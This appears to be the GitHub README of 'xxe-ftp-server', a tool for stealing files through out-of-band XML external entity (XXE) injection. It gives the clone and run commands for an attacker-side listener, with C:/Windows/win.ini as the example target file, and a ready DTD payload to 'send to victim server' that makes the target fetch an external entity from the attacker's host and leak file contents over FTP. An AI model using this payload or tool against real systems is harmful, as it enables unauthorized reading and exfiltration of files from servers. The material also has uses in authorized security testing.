

# xxe-ftp-server

xxe oob receive file via web and ftp server


## Installation
```
git clone https://github.com/f3lze3/xxe-ftp-server
```

## Usage:

### Step 1:

**run script:**

```
python xxe-ftp-server.py -l <lhost> -p <lport> -b <bhost> -f <file path>
```

**such as:**

```
python xxe-ftp-server.py -l 0.0.0.0 -p 21 -b 127.0.0.1 -f C:/Windows/win.ini
```

### Step 2:

**send xxe payload to victim server:**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY % dtd PUBLIC "-//OXML/XXE/EN" "http://127.0.0.1:21">
 %dtd;%ftp;%send;
 ]>
<ANY>xxe</ANY>
```

`127.0.0.1:21` is `public-server-ip` and `ftp-server-bind-port`

## Reference

[GitHub - LandGrey/xxe-ftp-server: xxe oob receive file via web and ftp server](https://github.com/LandGrey/xxe-ftp-server/)

 

